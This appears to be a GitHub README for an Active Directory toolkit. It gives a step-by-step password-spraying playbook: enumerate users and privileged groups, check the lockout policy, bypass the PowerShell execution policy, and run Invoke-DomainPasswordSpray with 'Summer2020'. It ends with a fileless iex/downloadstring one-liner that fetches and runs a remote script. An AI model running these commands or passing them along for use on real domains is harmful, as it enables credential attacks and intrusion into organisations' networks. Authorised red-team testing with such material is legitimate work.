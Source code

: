 # AD
Queries and code related to Active Directory

Process: 
1. Use the "ADCounts.ps1" script to size up the directory.
2. Use a command like "Net accounts /domain" to see the current password policy (Don't want to lock thouse accounts, eh?)
3. Use GetADPrivGroups.ps1 to get membership in the main AD Elevated groups - see who is who.
4. Could go and get Blood Hound / SharpHound, maybe collect some juicy details... 
5. Assess the current situation before the sparay - try getlockoutinfo.ps1 for details and getlocked.ps1 for lockout status.
6. Then attempt the PW spray with pwspray.ps1
7. Need to open up a PowerShell prompt w/ bypass: from command prompt, "PowerShell -exec bypass" should get you there.
8. Need to import the script - Type 'Import-Module pwspray.ps1', which is a more paranoid version of dafthack's pw spray script.
9. Run the script - Invoke-DomainPasswordSpray -Password Summer2020 -OutFile results.txt
10. Observe - Search-ADAccount –LockedOut. Problems? Use control C and punt. Wait a bunch before you try again. 
11. Kick it up a notch maybe? Go fileless?
powershell -nop -c "iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/OnlyTheShadowKnows/AD/master/ADcounts.ps1')"



